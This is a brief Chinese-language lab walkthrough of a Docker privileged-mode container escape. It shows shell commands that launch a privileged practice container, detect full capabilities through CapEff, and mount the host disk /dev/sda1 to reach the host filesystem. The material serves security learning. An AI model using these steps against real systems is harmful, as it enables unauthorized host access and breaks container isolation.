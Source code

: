# 配置不当--特权模式

运维人员在启动容器得时候，是以root权限启动得就造成特权逃逸

特权模式通常是指以root用户或具有特殊权限的用户身份运行的进程
```shell
启动靶场：docker run --rm --privileged=true -it alpine
```
 

检测\[只要输出； 其中一段就是特权\]

```shell
cat /proc/self/status \| grep CapEff \| grep -E '0000003fffffffff\|0000001fffffffff'
```

![image-20231202152343259](./assets/image-20231202152343259.png)

 
```shell
fdisk -l 查看目录
```

![image-20231202152346820](./assets/image-20231202152346820.png)
```shell

特权逃逸：mkdir /test1 && mount /dev/sda1 /test1

判断结果：cd /test1/ && ls
```
 

![image-20231202152350280](./assets/image-20231202152350280.png)

 

逃逸成功

接下来看逃逸成功之后的操作---docker
